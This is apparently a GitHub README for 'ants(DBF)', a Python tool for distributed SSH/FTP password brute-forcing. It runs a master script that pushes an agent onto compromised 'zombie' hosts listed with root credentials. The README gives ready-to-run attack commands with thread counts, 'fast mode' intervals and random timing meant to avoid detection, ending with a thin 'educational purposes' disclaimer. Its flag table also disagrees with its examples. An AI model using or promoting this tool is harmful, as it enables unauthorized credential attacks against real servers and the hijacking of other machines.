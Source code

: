 # ants(DBF)         
Simple Distributed BruteForcer        
                  
## Requirement         
**OS system** : Debian/RHEL         
**Runtime Environment** :                          
\>  main-host: python27 with lib(paramiko)                                   
\>  zombie-host: python27 with lib(paramiko, ftplib)      
## Introduction        
\>  *owner.py*  : the master control program ,which is used to connect zombie_host (read from zombie_file) and create distribute tasks(use password dictionary). owner.py is a simple distributed bruteforcer framework.                       
\>  *zombie.py* : the child script program, attacker copy zombie.py to zombie_host after connection succeed. zombie.py is a bruteforcer agent, only support SSH cracking this version.               
\#slow mode                    
eg1: Each zombie works 10s interval, totally 30 threads        
python owner.py -H 192.168.0.10 -p 22 -u root -F passwd.lst -Z zombie.lst -S ssh -t 30 -d 10         
eg2: Each zombie works 1min interval, totally 300 threads        
python owner.py -T ssh://192.168.0.10:22 -u root -F passwd.lst -Z zombie.lst -t 300 -d 60      
\#fast mode             
eg1: Each zombie works 0.2s interval, totally 100 threads               
python owner.py -H 192.168.0.10 -p 22 -u root -F passwd.lst -Z zombie.lst -T ssh -t 100 -d 0.2                 
eg2: Each zombie works 0.01s interval, totally 100 threads                       
python owner.py -T ftp://192.168.0.10:21 -u ftp -F passwd.lst -Z zombie.lst -T ssh -t 100 -d 0.01      
```text                
-H <target host>  : Host IP of target.                 
-p <target_port>  : Port to connect to on the target.                      
-u <target_user>  ：Provide username when connect to the target.                   
-S <type>         : Only support SSH/FTP service now.              
-T <target>       : Provide target information. Format: ssh://10.1.1.1:22
-Z <zombie_file>  : Provide zombie's resource. Format: 192.168.0.1:root:toor.              
-F <passwd_file>  : Dictionary of passwords.                        
-l <threads>      ：Run threads number of connects in parallel, default 5.               
-c <interval>     : Defines the minimum wait time in seconds, default 5s. The ants(DBF) use random time interval technology. The actual time interval is 5.0~10.0 seconds.                
```                 

Ants(DBF) is only used for educational purposes and complies with the GPL agreement. Any acquisition and use of this tool will be regard as you have understood and agreed to the following rules:                 
1. Do not use this tool for attack or destructive purposes, in fact this is strongly opposed by the author.                          
2. Any risk of target property loss or legal issues caused by the use of this tool shall be borne by the user.                        
